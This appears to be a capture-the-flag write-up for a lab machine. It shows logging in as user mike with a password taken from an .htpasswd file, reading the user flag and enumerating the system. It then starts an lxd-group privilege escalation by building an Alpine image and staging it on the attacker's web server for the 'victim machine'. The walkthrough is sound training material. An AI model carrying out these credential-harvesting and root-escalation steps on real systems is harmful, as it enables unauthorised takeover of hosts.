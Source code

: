 Browse around. Credentials for user mike are at /var/wwww/html/.htpasswd:

```bash
su mike
# Enter password: Sheffield19
```

And get the user.txt flag:

```bash
cd
ls -la
cat user.txt
```

## Privilege escalation

```bash
whoami
pwd
id
groups
uname -a
lsb_release -a
```

Information retrieved:

```
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
groups
mike lxd
uname -a
Linux included 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.5 LTS
Release:        18.04
Codename:       bionic
```

After looking for "exploit ubuntu 18.04.5 LTS" there exists [a exploit that uses lxd service](https://www.exploit-db.com/exploits/46978), which makes sense after reading the information retrieved. About [lxd privilege escalation](lxd.md).

LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.

Basically, as mike we belong to group lxd. Let's exploit this:

**Steps to be performed on the attacker machine:**


```bash
# Download build-alpine in your local machine through the git repository:
git clone https://github.com/saghul/lxd-alpine-builder.git

# Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
cd lxd-alpine-builder
sudo ./build-alpine

# This will generate a tar file that you need to transfer to the victim machine. For that you can copy that file to your /var/www/html folder and start apache2 service.
```
